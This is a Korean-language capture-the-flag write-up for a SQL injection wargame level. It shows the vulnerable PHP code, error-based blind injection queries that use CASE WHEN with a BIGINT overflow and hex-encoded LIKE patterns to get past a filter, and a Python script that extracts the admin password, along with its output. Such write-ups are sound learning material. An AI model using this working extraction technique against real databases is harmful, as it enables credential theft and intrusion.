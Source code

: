 # frankenstein

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `prob _ . ( ) union`등을 필터링 한다.   
- 쿼리 에러 발생시, "error"를 화면에 표시한다.   
- 정확한 admin pw 값을 찾아내면 문제가 해결된다.   

## 3. Solution
blind sqlinjection 진행을 위해 error 발생 부분을 참거짓 구분으로 활용하였다.   
괄호가 필터링 되어, if문 사용에 제약이 있으므로 새롭게 case when 구문을 활용하였다.   

```sql
CASE WHEN 조건식 THEN 반환값 ELSE 조건에 만족하지 않을 경우 반환값 END
```   



조건문속 admin pw의 길이, 값을 구하는데 사용해왔던 `length substr ascii`등이 괄호 필터링에 의해   
활용이 어려워져 `like`를 이용하여 찾아보았다.    
>    `like`구문속 '_'가 필터링 되므로, hex값 변환 후 비교하였다.   
    pw값을 찾는 부분에서는 `like binary`를 사용하여 대소문자를 구분하였다.   



또한, 조건에 만족하지 않을 경우 반환값에 에러를 발생시키기 위해 `out of range` error 를 이용하였다.   
>    자세히 설명하자면, mysql 에서는 '~0'(bitwise negation to 0) 실행 시 unsigned BIGINT의 최댓값이 나온다.   
    위 경우에 1을 더하면 BIGINT overflow error가 발생하게 된다.   
>
>    일전에 'bigint overflow error based sqli' 공부하다 찾게된 내용이다.   
    참고 : https://www.exploit-db.com/docs/english/37733-bigint-overflow-error-based-sql-injection.pdf   




공격 쿼리를 구체화 하면 다음과 같다.   

```sql
length of admin pw ('_'*?)
CASE WHEN pw like 0x5f THEN 1 ELSE 1+~0 end#
CASE WHEN pw like 0x5f5f THEN 1 ELSE 1+~0 end#
CASE WHEN pw like 0x5f5f5f THEN 1 ELSE 1+~0 end#

value of admin pw ('?%')
CASE WHEN pw like binary 0x6125 THEN 1 ELSE 1+~0 end#
CASE WHEN pw like binary 0x616225 THEN 1 ELSE 1+~0 end#
CASE WHEN pw like binary 0x616325 THEN 1 ELSE 1+~0 end#
CASE WHEN pw like binary 0x61636125 THEN 1 ELSE 1+~0 end#
```   



위를 구성으로 짜본 python script는 다음과 같다.   
```python
import requests
import binascii

cookie = {'PHPSESSID' : '~~~~'}
    
def str2hex(string_1):
    return binascii.hexlify(string_1.encode('utf-8')).decode('utf-8')

for i in range(1,100):
    url = "https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php?\
        pw=' or id='admin' and case when pw like 0x%s then 1 else 1%%2b~0 end%%23;" % (str2hex('_'*i))
    res = requests.get(url, cookies=cookie)
    print("%d ... " % i, end="")
    
    if not "<hr><br>error" in res.text:
        pw_len = i
        print("O")
        print("\n======================")
        print("admin pw length  |  %d" % pw_len)
        print("======================\n")
        break
    
    else:
        print("X")
        

pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        tmp_str = pw_value + chr(j) + '%'
        url = "https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php?\
            pw=' or id='admin' and case when pw like binary 0x%s then 1 else 1%%2b~0 end%%23;" % (str2hex(tmp_str))
        res = requests.get(url, cookies=cookie)

        if not("<hr><br>error" in res.text) and (chr(j) != '%') and (chr(j) != '_'):
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
            

print("\n======================")
print("admin pw  |  %s" % pw_value)
print("======================\n")
```   


결과는 다음과 같다.   
```
1 ... X
2 ... X
3 ... X
4 ... X
5 ... X
6 ... X
7 ... X
8 ... O

======================
admin pw length  |  8
======================

pw(1) : 0
pw(2) : 0d
pw(3) : 0dc
pw(4) : 0dc4
pw(5) : 0dc4e
pw(6) : 0dc4ef
pw(7) : 0dc4efb
pw(8) : 0dc4efbb

======================
admin pw  |  0dc4efbb
======================

```   

최종적으로 위 값을 `pw`로 넣어주면 문제가 해결된다.   

변수명 | 값
---|---
`pw` | 0dc4efbb